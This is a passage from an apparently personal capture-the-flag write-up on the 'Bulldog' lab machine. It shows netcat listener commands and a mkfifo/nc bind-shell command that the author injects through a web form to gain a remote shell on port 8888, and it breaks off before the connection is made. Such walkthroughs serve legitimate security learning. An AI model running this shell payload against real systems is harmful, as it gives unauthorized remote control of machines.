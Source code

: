 ```
$ nc -l 8888
```

Then, I've created something which should give me some result if ```nc``` was available on the Bulldog (192.168.1.2 is an IP address of my machine):

![](assets/10.png)

I hit 'Run' and... bam!

![](assets/11.png)

Great, so ```nc``` is working fine. Let's try something different then. We can use pipes and input/output redirections with this command:

```
$ mkfifo backpipe && nc -l 8888 0<backpipe | /bin/bash > backpipe
```

Here you can find more details about ```mkfifo``` command: http://man7.org/linux/man-pages/man3/mkfifo.3.html

I've put the command into web form, hit 'Enter' and... it worked :) No HTTP 500. Browser was just waiting for response from the server. Next step was to connect with Bulldog on port 8888 to see if we get the shell:
